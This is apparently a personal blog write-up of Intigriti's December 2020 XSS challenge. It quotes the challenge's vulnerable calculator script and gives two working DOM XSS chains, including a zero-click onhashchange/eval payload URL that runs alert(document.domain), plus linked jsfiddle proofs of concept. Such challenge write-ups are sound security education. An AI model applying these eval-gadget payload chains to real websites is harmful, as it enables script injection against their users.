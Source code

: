 ```yaml
---
weight: 4
title: "Intigriti's December XSS Challenge Writeup"
date: 2020-12-14T01:00:00+04:00
lastmod: 2020-12-14T01:00:00+04:00
draft: false
author: "Davwwwx"
authorLink: "/about"
description: ""
resources:
- name: "featured-image"
  src: "featured-image.png"

tags: ["challenge", "xss", "intigriti", "eval", "unintended"]
categories: ["Challenges"]

lightgallery: true
toc:
  enable: true
---
```


This month’s Intigriti’s XSS challenge was interesting as a couple of hours after [Frans Rosén](https://twitter.com/fransrosen) submitted an unintended solution, and I got interested in that one more than in the original.
<!--more-->
![Unintended Solution by Frans Rosen](unintended.png "Unintended Solution")

Challenge on webarchive [https://web.archive.org/web/20201208103813/https://challenge-1220.intigriti.io/](https://web.archive.org/web/20201208103813/https://challenge-1220.intigriti.io/).
Vulnerable script on webarchive [https://web.archive.org/web/20201210000939/https://challenge-1220.intigriti.io/script.js](https://web.archive.org/web/20201210000939/https://challenge-1220.intigriti.io/script.js).


### Solution 1

Parsing query parameters using custom function (e.g. `getQueryVariable`, line 3) allows to specify those in URL hash on line 11 (below) `window.location.href.substr(...)`, as `String.prototype.indexOf()` is looking for the first occurance of `?` (question mark):

```javascript
function init(){
  try{
    document.getElementById("result").value = calc(getQueryVariable("num1"), getQueryVariable("num2"), getQueryVariable("operator"));
  }
  catch(ex){
    console.log(ex);
  }
}
...
function getQueryVariable(variable) {
    window.searchQueryString = window.location.href.substr(window.location.href.indexOf("?") + 1, window.location.href.length);
    var vars = searchQueryString.split('&');
    var value;
    for (var i = 0; i < vars.length; i++) {
        var pair = vars[i].split('=');
        if (decodeURIComponent(pair[0]) == variable) {
            value = decodeURIComponent(pair[1]);
        }
    }
    return value;
}
```

Two of the sources (`num1` and `num2`) are passed to `setNumber` function (line 23) when clicking on a number, which itself then passes it to `parseInt` (lines 101, 104), also there is no protection against iframing it, so, having such URL [https://challenge-1220.intigriti.io/#?num1=parseInt&operator=%3d&num2=eval](https://challenge-1220.intigriti.io/#?num1=parseInt&operator=%3d&num2=eval) in an iframe, we can execute `parseInt=eval` as `operation` in the context of the vulnerable webpage, because `=` is whitelisted as an operator:
```javascript
const operators = ["+", "-", "/", "*", "="];
function calc(num1 = "", num2 = "", operator = ""){
  operator = decodeURIComponent(operator);
  var operation = `${num1}${operator}${num2}`;
  document.getElementById("operation").value = operation;
  if(operators.indexOf(operator) == -1){
    throw "Invalid operator.";
  }
  if(!(/^[0-9a-zA-Z-]+$/.test(num1)) || !(/^[0-9a-zA-Z]+$/.test(num2))){
    throw "No special characters."
  }
  if(operation.length > 20){
    throw "Operation too long.";
  }
  return eval(operation);
}
...
window.onload = function(){
 init();
 var numberBtns = document.body.getElementsByClassName("number");
 for(var i = 0; i < numberBtns.length; i++){
   numberBtns[i].onclick = function(e){
     setNumber(e.target.innerText)
   };
 };
 var operatorBtns = document.body.getElementsByClassName("operator");
 for(var i = 0; i < operatorBtns.length; i++){
   operatorBtns[i].onclick = function(e){
     setOperator(e.target.innerText)
   };
 };

  var clearBtn = document.body.getElementsByClassName("clear")[0];
  clearBtn.onclick = function(){
    clear();
  }
}
...
function setNumber(number){
  var url = new URL(window.location);
  var num1 = getQueryVariable('num1') || 0;
  var num2 = getQueryVariable('num2') || 0;
  var operator = getQueryVariable('operator');
  if(operator == undefined || operator == ""){
    url.searchParams.set('num1', parseInt(num1 + number));
  }
  else if(operator != undefined){
    url.searchParams.set('num2', parseInt(num2 + number));
  }
  window.history.pushState({}, '', url);
  init();
}
```

Now we can redirect the iframe to a new hash [https://challenge-1220.intigriti.io/#?num1=parseInt&operator=%3d&num2=alert(document.domain)//](https://challenge-1220.intigriti.io/#?num1=parseInt&operator=%3d&num2=alert(document.domain)//) and as, only, the URL hash is changed, no request is going to be sent to the server and if the user hits any number, the following script will be executed `alert(document.domain)//<number>`.

A similar technique can be leveraged when having `calc=eval` executed then redirecting to a new hash [https://challenge-1220.intigriti.io/#?num1=alert(document.domain)&operator=%3d&num2=eval](https://challenge-1220.intigriti.io/#?num1=alert(document.domain)&operator=%3d&num2=eval), where the user has to hit an operator

POCs:
- for numbers - [https://jsfiddle.net/td6yzm0w/1/](https://jsfiddle.net/td6yzm0w/1/)
- for operators - [https://jsfiddle.net/td6yzm0w/](https://jsfiddle.net/td6yzm0w/)

![Intigriti tip tweet](response.png "Intigriti tip tweet")

### Solution 2

Now the intended one, that leads to DOM XSS (Cross site swagging) with no user interaction.
![Intigriti tip tweet](tip.png "Intigriti tip tweet")


Very right, because `getQueryVariable` iterates in a loop and takes the value of the last occurrence of the requested parameter (lines 5-10) 
```javascript
function getQueryVariable(variable) {
    window.searchQueryString = window.location.href.substr(window.location.href.indexOf("?") + 1, window.location.href.length);
    var vars = searchQueryString.split('&');
    var value;
    for (var i = 0; i < vars.length; i++) {
        var pair = vars[i].split('=');
        if (decodeURIComponent(pair[0]) == variable) {
            value = decodeURIComponent(pair[1]);
        }
    }
    return value;
}
```

Chain:
- [https://challenge-1220.intigriti.io/?num1=onhashchange&operator=%3d&num2=init&#d&](https://challenge-1220.intigriti.io/?num1=onhashchange&operator=%3d&num2=init&#d&) - execute `onhashchange=init`
- [https://challenge-1220.intigriti.io/?num1=onhashchange&operator=%3d&num2=init&#d&num1=calc&num2=eval](https://challenge-1220.intigriti.io/?num1=onhashchange&operator=%3d&num2=init&#d&num1=calc&num2=eval) - changing hash, triggering `onhashchange` which is `init` now and executing `calc=eval`
- [https://challenge-1220.intigriti.io/?num1=onhashchange&operator=%3d&num2=init&#d&num1=calc&num2=eval&num1=alert('achievement%20unlocked:%20unlimited%20swag%20vouchers%20'%2bdocument.domain)](https://challenge-1220.intigriti.io/?num1=onhashchange&operator=%3d&num2=init&#d&num1=calc&num2=eval&num1=alert('achievement%20unlocked:%20unlimited%20swag%20vouchers%20'%2bdocument.domain)) - triggering `onhashchange` and passing `alert('achievement unlocked: unlimited swag vouchers '+document.domain)` to `eval`

Now you can claim your unlimited swag voucher with 0 click:
![Pop an alert](alert.png "Pop an alert")


POC: [https://jsfiddle.net/vsz08bpo/](https://jsfiddle.net/vsz08bpo/) 